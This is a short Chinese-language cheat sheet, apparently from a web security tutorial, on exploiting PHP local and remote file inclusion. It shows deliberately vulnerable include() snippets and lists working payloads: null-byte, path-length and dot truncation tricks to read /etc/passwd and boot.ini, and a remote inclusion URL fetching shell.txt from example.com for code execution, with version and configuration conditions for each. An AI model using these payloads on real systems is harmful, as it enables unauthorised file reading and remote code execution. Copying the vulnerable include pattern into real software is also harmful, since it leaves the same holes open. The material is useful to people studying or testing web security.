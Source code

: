 ## 有限制的本地文件包含

```php
<?php include("inc/" . $_GET['file'] . ".htm");?>
```

### 攻击方式

#### %00 截断

::: tip 攻击方式

?file=../../../../../../../../../etc/passwd%00<br> (需要 magic_quotes_gpc=off, PHP 小于 5.3.4 有效)

:::

#### %00 截断目录遍历

::: tip 攻击方式

?file=../../../../../../../../../var/www/%00<br> (需要 magic_quotes_gpc=off, unix 文件系统, 比如 FreeBSD, OpenBSD, NetBSD, Solaris)

:::

#### 路径长度截断:

::: tip 攻击方式

?file=../../../../../../../../../etc/passwd/././././././.[...]/./././././.<br> (php 版本小于 5.2.8(?)可以成功, linux 需要文件名长于 4096, windows 需要长于 256)

:::

#### 点号截断:

::: tip 攻击方式

?file=../../../../../../../../../boot.ini/.........[...]............<br> (php 版本小于 5.2.8(?)可以成功, 只适用 windows, 点号需要长于 256)

:::

## 普通远程文件包含

```php
<?php include($_GET['file']);?>
```

### 攻击方式

#### 远程代码执行:

::: tip 攻击方式

?file=[http|https|ftp]\://example.com/shell.txt<br> (需要 allow_url_fopen=On 并且 allow_url_include=On)

:::
